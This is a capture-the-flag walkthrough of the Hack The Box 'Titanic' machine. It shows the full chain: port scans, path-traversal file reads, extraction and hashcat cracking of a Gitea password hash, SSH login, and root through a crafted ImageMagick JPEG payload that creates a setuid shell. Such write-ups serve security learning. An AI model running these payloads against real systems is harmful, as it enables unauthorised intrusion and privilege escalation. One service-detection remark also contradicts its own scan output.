 # Titanic – HTB Walkthrough

## 🧭 Enumeration
We begin by scanning the open ports on the host:

```bash
nmap -sS -p- 10.10.11.55 -T5
```

Output:

PORT     STATE SERVICE  
22/tcp   open  ssh  
80/tcp   open  http  

Port 80 running an HTTP service and port 22 (SSH) are open on the target.

⸻

🔍 Service Detection on Port 80

```bash
nmap -sV -p 80 10.10.11.55 -T5
```

Output:

80/tcp open  http    Apache httpd 2.4.52

Gunicorn is a Python WSGI HTTP server, often used to serve Flask apps.  
Browsing the website (after adding `titanic.htb` to your `/etc/hosts`) reveals a landing page for booking ship trips.

⸻

🧪 Web Application & LFI

The website features a booking form which, when submitted, generates a JSON file via a redirect to:

```
/download?ticket=<ticket_id>.json
```

Testing for LFI by replacing the `ticket` parameter yields:

```bash
curl "http://titanic.htb/download?ticket=../../../../etc/passwd"
```

Which returns the contents of `/etc/passwd`.

Similarly, accessing:

```bash
curl "http://titanic.htb/download?ticket=../../../../home/developer/user.txt"
```

Returns:

```
1675dbe3cc3d3ab35d0e5db3bb8e8679
```

→ ✅ User flag obtained.

Fuzzing the `/download` endpoint (using `ffuf`) confirms directory traversal and file disclosure on various sensitive files (e.g., crontab, passwd, etc.).

⸻

🔍 Gitea Enumeration & Database Extraction

Accessing the subdomain `dev.titanic.htb` reveals a Gitea instance.  
Two repositories are of interest:
- `docker-config`
- `flask-app`

In the `docker-config` repo, a Docker Compose file for MySQL is found:

```yaml
version: '3.8'
services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets 
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always
```

Furthermore, a Docker Compose file for Gitea reveals the path of the database:

```
/home/developer/gitea/data/gitea/gitea.db
```

Using the LFI vulnerability, the file is downloaded:

```bash
curl -s "http://titanic.htb/download?ticket=../../../../home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

Opening the database with `sqlite3` reveals the user table. Extracting the credentials of the developer user:

```sql
SELECT lower_name, salt, passwd FROM user;
```

Hash and salt values are obtained, converted (e.g., with `gitea2hashcat`) and cracked with hashcat:

```bash
hashcat -m 10900 hash.txt rockyou.txt
```

→ developer: `25282528`

⸻

🔐 SSH Access as Developer

With the cracked credentials:

```bash
ssh developer@titanic.htb
```

Once logged in, enumeration confirms access to `/opt/scripts`, where a script stands out.

⸻

🧪 ImageMagick Exploit & identify_images.sh

In `/opt/scripts`, the script `identify_images.sh` is found:

```bash
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

This script uses `magick identify` to process `.jpg` images and extract metadata.

To trigger RCE via ImageMagick:
1. Craft a JPEG file with:
   - JPEG magic bytes (FF D8 ...)
   - An MVG payload embedded in a comment
   - JPEG trailer (FF D9)

Example:
```bash
magick convert -size 640x480 xc:white -set comment "push graphic-context
viewbox 0 0 640 480
fill 'url(|cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash|)'
pop graphic-context" evil.jpg
```

Drop `evil.jpg` in the image directory and wait for the script to execute (e.g., via cron).

Then:
```bash
/tmp/rootbash -p
```

→ Root shell obtained ✅

⸻

🏁 Summary

| Step          | Description                                              |
|---------------|----------------------------------------------------------|
| nmap          | Enumerate ports (SSH on 22, HTTP on 80)                  |
| Web           | Discover booking form & LFI on `/download?ticket=`      |
| LFI           | Extract `/etc/passwd`, `/home/developer/user.txt`       |
| Gitea         | Extract and crack developer credentials from gitea.db   |
| SSH           | SSH access as `developer`                               |
| ImageMagick   | Craft malicious JPEG to gain root via identify script   |

🎉 Rooted!

⸻

🧠 Lessons Learned
- LFI vulnerabilities can expose sensitive files and escalate quickly.
- Misconfigurations (like Docker/Gitea exposure) are critical entry points.
- ImageMagick has a history of dangerous parsing bugs.
- File extension ≠ file type — magic bytes matter.
